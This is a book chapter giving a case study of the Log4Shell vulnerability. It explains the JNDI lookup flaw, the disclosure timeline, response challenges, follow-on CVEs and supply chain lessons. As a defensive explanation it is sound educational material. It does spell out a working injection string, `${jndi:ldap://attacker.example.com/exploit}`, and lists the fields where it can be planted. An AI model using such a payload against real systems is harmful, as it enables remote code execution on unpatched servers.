

# 5.2 Case Study: Log4Shell (CVE-2021-44228)

On December 9, 2021, the software industry experienced what many consider the most significant vulnerability disclosure in history. A critical flaw in Apache Log4j—a ubiquitous Java logging library—enabled trivial remote code execution across hundreds of millions of systems worldwide. The incident, quickly dubbed **Log4Shell**, became a defining moment for software supply chain security, revealing the extent to which modern infrastructure depends on invisible open source components and the challenges organizations face when those components fail.

Log4Shell was not merely a severe vulnerability. It was a stress test for the entire software ecosystem—and many organizations failed.

## Background: The Ubiquity of Log4j

Apache Log4j is a logging framework for Java applications. Logging—the practice of recording events, errors, and information during program execution—is a fundamental requirement of virtually all software. Developers need logs for debugging, operations teams need them for monitoring, and security teams need them for incident investigation.

Log4j emerged in the early 2000s as a flexible, performant logging solution that became the de facto standard for Java applications. When Log4j 2 was released in 2014, it offered improved performance and new features, including a powerful message lookup and formatting capability. This capability would prove to be Log4Shell's origin.

The scale of Log4j deployment is difficult to overstate. At the time of disclosure, estimates suggested the library was present in:

- Thousands of enterprise applications (from Apache Struts to Elasticsearch to Minecraft servers)
- Products from essentially every major technology vendor (Apple, Amazon, Google, Microsoft, Oracle, Cisco, VMware, and hundreds more)
- Critical infrastructure systems across government, healthcare, finance, and utilities
- Embedded systems, IoT devices, and industrial control systems

!!! note "The Scale of Log4j Deployment"

    A Google analysis of Maven Central found over 35,000 Java packages had direct or transitive dependencies on Log4j, with potential to impact hundreds of millions of devices worldwide.

This ubiquity derived from exactly the dynamic described throughout this book: developers choose useful libraries that become dependencies of other libraries that become dependencies of applications, creating transitive dependency chains that spread components throughout the ecosystem.

## The Vulnerability: JNDI Lookup and Remote Code Execution

The vulnerability exploited Log4j's **message lookup** feature, which allowed log messages to include special syntax that would be interpreted and expanded. For example, a log message could include `${java:version}` to automatically insert the Java version into the log output.

Among the supported lookup types was **JNDI (Java Naming and Directory Interface)**, a Java API for looking up and retrieving data—including executable code—from remote servers. Think of it like a phone directory lookup, except instead of just returning a phone number, it can automatically download and run whatever program is listed at that address.

The fateful feature allowed log messages to include lookups like `${jndi:ldap://example.com/object}`, which would cause Log4j to connect to the specified server and load the referenced object.

The security implications were catastrophic: if an attacker could get a JNDI lookup string into a log message, they could make the vulnerable server connect to an attacker-controlled server, download malicious code, and execute it—all automatically, with no further interaction required. The attack required no authentication, no special privileges—just the ability to inject a string into something that would be logged.

This proved trivially easy to exploit. Applications commonly log user-controlled data: usernames, form inputs, HTTP headers, user agents, search queries. An attacker could trigger the vulnerability by simply:

- Entering `${jndi:ldap://attacker.example.com/exploit}` as a username
- Setting their browser's user agent to the exploit string
- Sending an HTTP request with the string in a header
- Including it in any field that the application might log

Within hours of disclosure, security researchers observed widespread scanning for vulnerable systems. The barrier to exploitation was so low that automated attacks began almost immediately.

!!! danger "CISA Director's Assessment"

    "This vulnerability is one of the most serious that I've seen in my entire career, if not the most serious. We expect the vulnerability to be widely exploited by sophisticated actors and we have limited time to take necessary steps." — Jen Easterly, CISA Director

## Discovery and Disclosure Timeline

The timeline of Log4Shell demonstrates both the speed of modern vulnerability response and its challenges:

**November 24, 2021**: Researchers at Alibaba Cloud Security discover the vulnerability and report it to the Apache Software Foundation.

**November 30, 2021**: Apache begins working on a fix. The vulnerability is assigned **CVE-2021-44228**—the identifier that would become synonymous with Log4Shell.

**December 1, 2021**: A fix is developed, and testing begins.

**December 5, 2021**: Evidence suggests the vulnerability may have been known in Chinese security communities, with reports of Minecraft server exploitation.

**December 6, 2021**: Log4j 2.15.0 is released, containing the fix.

**December 9, 2021**: Full public disclosure occurs after details appear on Twitter and Chinese blogs. The security community mobilizes. CISA issues its initial alert.

**December 10, 2021**: Mass exploitation begins in earnest. Security firms observe millions of exploit attempts.

**December 11, 2021**: CISA issues Emergency Directive 22-02, requiring federal civilian agencies to assess and mitigate Log4Shell within days.

**December 14, 2021**: A second vulnerability (CVE-2021-45046) is disclosed, revealing that the 2.15.0 fix was incomplete. Log4j 2.16.0 is released.

**December 18, 2021**: Apache discloses a denial-of-service vulnerability (CVE-2021-45105). Log4j 2.17.0 is released.

**December 28, 2021**: Additional remote code execution possibility (CVE-2021-44832) is identified in certain configurations.

The compressed timeline—from disclosure to widespread exploitation in 24-48 hours—left organizations scrambling to respond before attackers could capitalize.

## The Initial Response: Organizational Chaos

The Log4Shell response revealed the state of vulnerability management across the industry. Organizations faced multiple simultaneous challenges:

**Identification was the first crisis.** Many organizations did not know where Log4j was deployed. It appeared in applications they had developed, in vendor products they had purchased, in SaaS platforms they used, and in infrastructure they had forgotten about. Security teams worked through weekends attempting to inventory their exposure.

**Transitive dependencies complicated discovery.** Applications might use Spring Boot, which uses Spring Framework, which uses something that uses Log4j—without Log4j appearing in the application's direct dependencies. Standard software composition analysis (SCA) tools could miss these chains. Organizations had to scan compiled applications, not just dependency manifests.

!!! warning "The Shaded JAR Problem"

    Shading is like photocopying pages from a library book, changing the chapter titles, and binding them into your own book. Standard vulnerability scanners that looked for `log4j-core.jar` would miss shaded copies. Some tools reported "not affected" while the vulnerability was actually present.

**The shaded JAR problem created detection blind spots.** Java applications often repackage dependencies inside their own JAR files—a practice called "shading" or "fat JAR" creation. When Log4j was shaded into another library, it might not appear with its original name or package structure.

**Vendor opacity added complexity.** Commercial products include dependencies without disclosing their composition. Customers had to wait for vendor advisories to learn whether purchased software was affected. Some vendors took days or weeks to issue statements. Others provided incomplete information. The absence of Software Bills of Materials (SBOMs) meant organizations could not independently assess vendor product risk.

**Patch management under fire challenged organizations.** Even when affected systems were identified, patching was not straightforward. Some applications bundled Log4j in ways that prevented simply updating the library. Some systems could not be taken offline for updates. Some organizations lacked the ability to deploy patches quickly.

**Mitigation alternatives added confusion.** For systems that could not be immediately patched, Apache suggested mitigations: removing the vulnerable JndiLookup class, setting configuration flags, or using Java agents to block exploit attempts. These mitigations had varying effectiveness, and guidance evolved as understanding deepened.

CISA's Emergency Directive 22-02 required federal civilian agencies to enumerate all instances of Log4j, assess whether they were vulnerable, and apply mitigation within 5 days for internet-facing systems. Private sector organizations faced similar pressure without explicit directives.

## Challenges: Why Log4Shell Was So Hard to Address

Log4Shell exposed several systemic challenges in vulnerability response:

**Invisible dependencies**: The supply chain had distributed Log4j throughout the software ecosystem without visibility. Applications several transitive steps from Log4j were still vulnerable. The lesson was stark: you cannot secure what you cannot see.

**The shaded JAR problem**: Java's ecosystem practices actively obscured the presence of vulnerable components. When dependencies are renamed, relocated, or bundled inside other artifacts, standard scanning fails. Organizations needed specialized tools like Syft, Grype, or log4j-detector that examined class files rather than just package names.

**Vendor dependency**: Organizations running commercial software depended on vendors to acknowledge and patch their products. A hospital running vulnerable medical devices had no ability to patch them directly. A retailer using vulnerable point-of-sale systems had to wait for vendor updates. This dependency created exposure windows measured in weeks or months.

**Embedded and IoT systems**: Log4j appeared in systems not designed for rapid updates—industrial controllers, network appliances, embedded devices. Some of these systems may remain permanently vulnerable.

**Skills gaps**: Many organizations lacked the Java expertise to understand whether mitigations were appropriate for their specific deployments, how to apply class removals safely, or how to configure Java properties correctly.

**Testing requirements**: Even when patches were available, production deployments required testing. Changes to logging infrastructure could affect application behavior. Organizations had to balance patching speed against the risk of breaking production systems.

## Follow-On Vulnerabilities: The Incomplete Fix Saga

The initial patch in Log4j 2.15.0 proved incomplete. Within days, additional vulnerabilities emerged:

**CVE-2021-45046** (disclosed December 14, 2021): The fix in 2.15.0 did not fully address the vulnerability in non-default configurations. While initially scored as a denial-of-service, the score was later revised to acknowledge potential code execution in specific environments. Log4j 2.16.0 addressed this issue by disabling JNDI lookups entirely by default.

**CVE-2021-45105** (disclosed December 18, 2021): A denial-of-service vulnerability affecting the lookup replacement code could cause infinite recursion. Log4j 2.17.0 fixed this issue.

**CVE-2021-44832** (disclosed December 28, 2021): A remote code execution vulnerability existed in the JDBCAppender when configured with an attacker-controlled JDBC URL. Log4j 2.17.1 addressed this.

Organizations that had deployed 2.15.0 as an emergency fix found themselves needing to patch again within days. The sequence undermined confidence in the patching process and created patching fatigue.

The incomplete fix pattern is not unique to Log4j—complex vulnerabilities often require iterative patching—but the public nature and high stakes of Log4Shell made each additional CVE a news event that demanded immediate attention.

## Long-Term Impact and Ongoing Exploitation

Log4Shell did not end with patching. Years after disclosure, the vulnerability remains actively exploited:

- CISA's [Known Exploited Vulnerabilities][cisa-kev] catalog lists Log4Shell as actively exploited, requiring federal agencies to maintain patching compliance.
- Security firms continue to observe Log4Shell exploitation attempts in threat actor campaigns.
- The 2022 attack on Albanian government systems used Log4Shell as part of the initial access vector.
- Ransomware groups have incorporated Log4Shell into their toolkits.

[Research by Tenable][tenable-log4shell] found that as of October 2022—nearly a year after disclosure—72% of organizations still had assets vulnerable to Log4Shell. The vulnerability's persistence reflects the challenges of achieving complete remediation across complex environments.

## Lessons Learned

Log4Shell provided the software industry with an expensive education. The lessons extend far beyond a single vulnerability:

**1. Transitive dependencies are invisible risk.** Organizations learned—painfully—that their actual dependency tree extended far beyond what they directly controlled. The ubiquity of Log4j caught organizations by surprise because they did not understand their transitive dependencies.

**Recommendation**: Implement comprehensive software composition analysis that traces dependencies through the entire supply chain, including transitive dependencies and bundled components.

**2. Software Bills of Materials (SBOMs) are necessary infrastructure.** The inability to determine whether vendor products were affected demonstrated the need for standardized component disclosure. Without SBOMs, customers cannot assess their exposure.

**Recommendation**: Require SBOMs from software vendors and generate them for internally developed software. The federal SBOM requirements that followed Log4Shell reflect this lesson.

**3. Shading and bundling create security blind spots.** Standard vulnerability scanning failed when dependencies were repackaged. Detection tools needed to examine actual code, not just dependency manifests.

**Recommendation**: Use detection tools capable of identifying components regardless of how they are packaged. Understand your build practices and how they affect component visibility.

**4. Vulnerability response capability requires advance preparation.** Organizations that could respond quickly had pre-existing visibility into their environments, established patching processes, and practiced incident response. Those without this foundation struggled.

**Recommendation**: Invest in vulnerability management infrastructure before incidents occur. Response during a crisis is too late to build capability.

**5. Critical open source needs sustainable support.** Log4j was maintained primarily by a small number of volunteers. When the crisis hit, these maintainers worked around the clock under immense pressure. The Apache Software Foundation called for donations and corporate support.

**Recommendation**: Organizations depending on open source must contribute to its sustainability—through funding, contributions, or other support mechanisms.

**6. Defense in depth remains essential.** Organizations with compensating controls—web application firewalls, network segmentation, egress filtering—had more options than those relying solely on patching. Multiple security layers provided time and options.

**Recommendation**: Design security architectures assuming any component may be compromised. Defense in depth provides resilience when individual controls fail.

**7. Communication and coordination need improvement.** The information chaos following disclosure—conflicting guidance, evolving severity assessments, incomplete patches—demonstrated the need for better coordination mechanisms.

**Recommendation**: Follow authoritative sources during incidents. Participate in information-sharing communities. Establish communication channels before crises.

Log4Shell was a watershed moment for supply chain security. It demonstrated conclusively that software dependencies are not merely convenience features but attack surface with potentially catastrophic consequences. The incident accelerated executive awareness, regulatory attention, and industry investment in supply chain security—themes explored throughout the remainder of this book.

[cisa-kev]: https://www.cisa.gov/known-exploited-vulnerabilities-catalog
[easterly-quote]: https://www.cnn.com/2021/12/13/politics/us-warning-software-vulnerability
[google-analysis]: https://security.googleblog.com/2021/12/understanding-impact-of-apache-log4j.html
[tenable-log4shell]: https://www.tenable.com/press-releases/tenable-research-finds-72-of-organizations-remain-vulnerable-to-nightmare-log4j

